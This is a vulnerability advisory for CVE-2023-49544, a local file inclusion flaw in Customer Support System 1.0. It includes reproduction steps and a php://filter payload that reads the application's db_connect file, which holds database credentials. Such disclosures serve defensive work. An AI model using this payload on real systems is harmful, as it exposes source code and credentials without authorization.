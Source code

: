# CVE-2023-49544
# Customer Support System 1.0 - Local File Inclusion

**Description**: Customer Support System 1.0 is vulnerable to Local File Inclusion. An authenticated user has the capability to access and read PHP files from the operating system by exploiting a Local File Inclusion (LFI) vulnerability through the wrapper filter.

**Vulnerable Product Version**: Customer Support System 1.0  
**CVE Author**: Geraldo Alcântara  
**Date**.: 28/11/2023  
**Confirmed on**: 19/12/2023  
**CVE**: CVE-2023-49544     
**Tested on**: Windows  
### Steps to reproduce:  
1. Log in to the application with any user.  
2. Modify the vulnerable "page" parameter to exploit the vulnerability.  
Payload: php://filter/convert.base64-encode/resource=C:\xampp\htdocs\customer_support\db_connect    

Exploiting the vulnerability and retrieving the content of the PHP file in base64.
![lfi01](https://github.com/geraldoalcantara/LFI_Customer_Support_System-/assets/152064551/7482329e-af58-4829-971a-91d539d8b13e)

Reading the content of the file (Base64 decoded).
![lfi02](https://github.com/geraldoalcantara/LFI_Customer_Support_System-/assets/152064551/9488f5ac-4903-4879-bc60-6cbe70b55ad0)

Discoverer(s)/Credits:  
Geraldo Alcântara  
